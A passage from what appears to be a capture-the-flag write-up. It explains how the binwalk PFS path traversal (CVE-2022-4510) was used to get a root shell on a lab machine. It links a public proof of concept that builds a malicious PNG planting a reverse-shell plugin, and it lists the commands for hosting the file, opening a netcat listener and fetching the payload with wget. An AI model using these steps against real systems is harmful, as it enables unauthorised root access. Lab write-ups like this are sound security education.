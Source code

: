 I highly recommend reading the Portswigger and OneKey article to better understand this vulnerability.

Basically the vuln exists in the PFS filesystem extractor in binwalk combined with binwalk's plugin system. In 2017, a PFS extractor plugin was merged into binwalk. A path traversal mitigation attempt was made using `os.path.join` however, it didn't work. By creating a valid PFS filesystem with filenames containing `../` in the name, binwalk will write files outisde of the extracton directory.

This vulnerability is then used to create a new `binwalk` plugin that will be picked up and executed while it's still scanning the malicious file.

I used [this Github POC](https://github.com/electr0sm0g/CVE-2022-4510) to create a malicious `png` file. This POC will create a binwalk plugin that will send me a reverse shell. 

![exploit](Fri-1-2023_01-29.png)

I host the `binwalk_exploit.png` on my python server and setup my netcat listener. Then from my ssh session as emily I `wget` the `.png` into the `shrunk` directory. And boom! Just like that, the `malwarescan.sh` script executes, the malicious binwalk plugin is created, and I get a reverse shell as root on my netcat listener.
```bash
# Start python server with binwalk_exploit.png
cp ../binwalk_rce/binwalk_exploit.png .
python3 -m http.server 80

# Start netcat listener
nc -lvnp 9001

# From ssh session
cd /var/www/pilgrimage.htb/shrunk
wget 10.10.15.34/binwalk_exploit.png
```
